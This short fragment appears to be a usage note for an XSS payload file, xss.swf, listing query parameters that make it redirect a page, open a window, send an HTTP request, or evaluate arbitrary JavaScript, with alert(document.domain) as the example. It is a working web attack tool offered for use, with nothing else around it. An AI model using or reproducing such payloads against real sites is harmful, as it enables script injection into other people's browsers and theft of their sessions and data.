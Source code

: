 location to url: xss.swf?a=location&c=http://www.google.com/
open url to new window: xss.swf?a=open&c=http://www.google.com/
http request to url: xss.swf?a=get&c=http://www.google.com/
eval js codz: xss.swf?a=eval&c=alert(document.domain)
